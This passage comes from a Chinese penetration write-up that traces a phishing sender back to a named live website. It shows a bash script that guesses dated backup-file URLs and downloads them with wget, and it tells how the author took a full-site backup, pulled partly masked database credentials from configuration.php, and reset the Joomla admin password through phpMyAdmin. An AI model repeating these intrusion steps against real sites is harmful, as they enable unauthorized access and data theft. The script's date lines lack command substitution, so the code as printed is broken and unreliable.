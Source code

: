 [![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384441_5c4a78b9e8740.png!small)](https://image.3001.net/images/20190125/1548384441_5c4a78b9e8740.png)

扫描发现PHPMailer RCE漏洞不过需要邮件发送表单功能才能利用这一堆漏洞里面看起来唯一有机会的是CVE-2016-9838Joomla! Core Remote Privilege Escalation Vulnerability然而经过测试攻击者丧心病狂贴心的把用户注册页面删除了堵住了漏洞导致无法利用。 

[![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384519_5c4a79075a99b.png!small)](https://image.3001.net/images/20190125/1548384519_5c4a79075a99b.png)

机智的我此时毫无办法开始挂字典整合Joomla目录盲扫备份文件最后发现目标存在PhpMyAdmin后台和一个报错页面页面显示了网站绝对路径和疑似以日期格式生成的网站备份的文件名。

```
/var/www/rosturpl/data/www/rosturplast.com/rosturplast.com.2015-11-11.zip
```

### 3.2 陷入僵局

尝试下载这个文件http响应404。看了一下同站有多个站点但旁站渗透是个体力活国外这种典型的CloudLinux+cPanel的架构不好提权。到这一步陷入了僵局睡个午觉养养神下午继续研究。

```
wget http://www.rosturplast.com/rosturplast.com.2015-11-11.zip 错误 404Not Found
```

### 3.3 后台提权

不到万不得已不从旁站和C段入手稍加思索根据报错页面的备份文件名格式生成日期文件尝试遍历日期下载碰碰运气。

**脚本内容**

```
#!/bin/bash
startdate=date -d "+0 day $1" +%Y%m%d
enddate=date -d "+0 day $2" +%Y%m%d
while [[ $startdate -le $enddate ]]
do
date=$startdate
startdateother=date -d "+0 day $date" +%Y-%m-%d
dateother=$startdateother
url=http://www.rosturplast.com/rosturplast.com.$dateother.zip
echo "$url"
startdate=date -d "+1 day $date" +%Y-%m-%d
startdateother=date -d "+1 day $date" +%Y-%m-%d
wget $url
done
```



脚本大概跑了一个下午当到达2017-08-07的时候响应200状态码看到rosturplast.com.2017-08-07.zip的文件大小为177M 感觉成了解压后果然是整站备份果然是柳暗花明又一shell。

![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384566_5c4a7936902fd.png!small)![邮件钓鱼攻击与溯源](https://image.3001.net/images/20190125/1548384580_5c4a7944549ca.png!small)

查看配置文件`configuration.php`得到数据库连接信息登录PhpMyAdmin后台。低权限无法直接写shell只能修改默认密码登录Joomla!后台。

```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'user***'; //敏感信息打码
public $password = 'K********6759'; //敏感信息打码
public $db = 'rtp_com3';
public $dbprefix = 'ms8ef_';
public $live_site = '';
public $secret = '5qp******4zU'; //敏感信息打码    
```

